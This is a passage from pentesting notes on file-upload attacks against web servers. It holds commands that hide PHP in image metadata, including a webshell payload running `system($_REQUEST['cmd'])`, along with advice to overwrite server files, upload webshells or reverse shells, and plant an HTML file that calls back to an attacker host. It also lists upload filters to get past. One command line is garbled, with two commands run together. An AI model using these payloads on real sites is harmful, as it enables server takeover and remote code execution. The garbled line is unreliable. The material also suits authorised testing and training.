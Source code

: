 ```bash
```
{% endcode %}
{% endtab %}

{% tab title="Injecting PHP into images" %}
{% code overflow="wrap" %}
```bash
# USING EXIFTOOL TO INSERT IT ON THE COMMENT SECTION (test before, then AV evasion)
exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test.jpeg.php

# ALTERNATIVE
echo "PHP CODE" | cat - image.jpg > test.jpg

exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpegexiftool -comment<=back.php hack.png
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Overwriting Existing Files

Web pages, for example, should not be writeable to the web user, thus preventing them from being overwritten with a malicious version uploaded by an attacker.\
If we can upload files and reviewing the source code or by other means we find a existent file with its URI, try to overwrite it by uploading another one with the same filename.&#x20;

## RCE

Upload a program written in the same language as the back-end of the website (or another language which the server understands and will execute).

Two main options: webshells and reverse shells.

## Client-side (sb open our files)

If upload form present and it seems somebody could be opening our files, try **.html file with a resource** as its content such as:

```
<img src="http://$IP/cat.png"/>
```

## Filtering

{% code overflow="wrap" fullWidth="true" %}
```bash
Client-side are filters run in our web browser before the file is uploaded.
Server-side filters are run on the server (PHP, C#, Node.js, Python, Ruby on Rails...).

# EXTENSION VALIDATION
curl -s -X GET "http://box.com/" | htmlq -p #then check different .js files and more, pipe jq  | jq for JSON 
The approach might be whitelist/blacklist extensions

# FILE TYPE FILTERING
MIME validation (image/jpeg, x-php/application)

# MAGIC NUMBER
For example, a PNG file would have these bytes at the very top of the file: 89 50 4E 47 0D 0A 1A 0A

# FILE LENGTH
To not starve the server of resources, take it in mind to make shells smaller if needed

# FILE NAME
```
